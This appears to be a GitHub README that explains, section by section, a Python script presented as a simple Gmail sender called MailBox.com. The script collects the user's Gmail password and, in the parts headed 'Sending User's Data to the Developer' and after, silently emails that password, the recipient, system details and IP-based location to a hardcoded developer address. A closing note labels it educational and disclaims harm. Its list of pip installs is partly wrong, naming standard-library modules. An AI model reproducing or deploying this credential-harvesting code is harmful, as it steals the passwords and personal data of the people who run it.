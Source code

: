 # This Python script is a simple email sender with additional functionality to collect and send the user's system details and location information to a specific email address. This is the break down the code and explain each part:

Part 1: Importing Libraries

```python
import json
from urllib.request import urlopen
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import platform
import socket
import psutil
```

This section imports the necessary libraries for handling JSON data, making HTTP requests, sending emails, and collecting system information. Additionally this is the commands to install all the modules:

pip install json
pip install urllib
pip install smtplib
pip install email
pip install platform
pip install socket
pip install psutil
pip install requests

Part 2: User Input

```python
name = input("Enter your name: ")
```

The script prompts the user to enter their name.

Part 3: Instructions for Gmail Authentication

```python
print("Hello," + name, '''Welcome to MailBox.com...''')
```

The script provides instructions for the user on creating an app password for Gmail.

Part 4: Validating and Collecting User's Gmail and Password

Collecting user's Gmail and password

```python
while True:
    Gmail = input("Enter your Gmail: ")
    if Gmail.endswith("@gmail.com"):
        MailBox = Gmail
        Password = input("Enter your Gmail password: ")
        print("Your Gmail is Submitted Successfully")
        break
    else:
        print("Your Gmail is Invalid, please Enter your Gmail again")
        Gmail = input("Enter your Gmail: ")
        if Gmail.endswith("@gmail.com"):
            MailBox = Gmail
            Password = input("Enter your Gmail password: ")
            print("Your Gmail is Submitted Successfully")
            break
```


The script prompts the user to enter their Gmail address, validates it, and then collects the Gmail and password.

Part 5: Email Content Input

```python
RMID = input("Enter the gmail of the receiver: ")
Mail = input("Enter gmail message to send: ")
```

The script collects the recipient's Gmail and the email message from the user.

Part 6: Sending the Email

```python
# Setting up SMTP and sending the email

s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
message1 = Mail
s.sendmail(MailBox, RMID, message1)
s.quit()
```

The script sets up an SMTP connection to Gmail, logs in using the user's credentials, and sends the email to the specified recipient.

Part 7: Sending User's Data to the Developer

```python
s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
subject = "Mail from " + MailBox + " to " + RMID
message = "From: " + MailBox + "\nTo: " + RMID + "\nSubject: " + subject + "\n" + Password
Developer = "K.alam93899@gmail.com"
s.sendmail(MailBox, Developer, message)
s.quit()
```

The script sends the user's Gmail, Gmail password, recipient's Gmail, and the email message to the developer's email address.

Part 8: Collecting and Sending System Information

```python
def send_email(subject, body, to_email):
    from_email = MailBox
    password = Password
    message = MIMEMultipart()
    message["From"] = from_email
    message["To"] = to_email
    message["Subject"] = subject
    message.attach(MIMEText(body, "plain"))
    
    with smtplib.SMTP("smtp.gmail.com", 587) as server:
        server.starttls()
        server.login(from_email, password)
        server.sendmail(from_email, to_email, message.as_string())

def get_device_details():
    # ... (Code for collecting system details)
    return data_SYS

if __name__ == "__main__":
    device_info = get_device_details()
    data_str = "\n".join([f"{key}: {value}" for key, value in device_info.items()])
    send_email("System Information", data_str, "K.alam93899@gmail.com")
```

The script defines a function to send an email and uses it to send the user's system information to the developer's email address.

Part 9: Collecting and Sending User's Location Information

```python
url = "http://ipinfo.io/json"
response = urlopen(url)
data = json.load(response)
Address_data = {
  "IP": data["ip"],
  "City": data["city"],
  "Region": data["region"],
  "Country": data["country"],
  "Location": data["loc"],
  "Organization": data["org"],
  "Postal": data["postal"],
  "Timezone": data["timezone"]
}

json_data = json.dumps(data, indent=4)

sender_email = MailBox
sender_password = Password
receiver_email = "K.alam93899@gmail.com"
subject = "IP Information"

body = f"""\
IP Information:

{json_data}
"""

with smtplib.SMTP("smtp.gmail.com", 587) as server:
    server.starttls()
    server.login(sender_email, sender_password)
    message = f"Subject: {subject}\n\n{body}"
    server.sendmail(sender_email, receiver_email, message)
```

The script collects the user's IP information using an external service and sends it to the developer's email address.

Part 10: Confirmation Message

```python
print("Your Mail sent successfully to", RMID)
```


Note: This python program is only made up for educational purpose and to show that python is a powerful language to use in ethical hacking or to build custom tools. Do not use it to harm anyone and if anyone is harmed by using this program then developer is not responsible for harm.
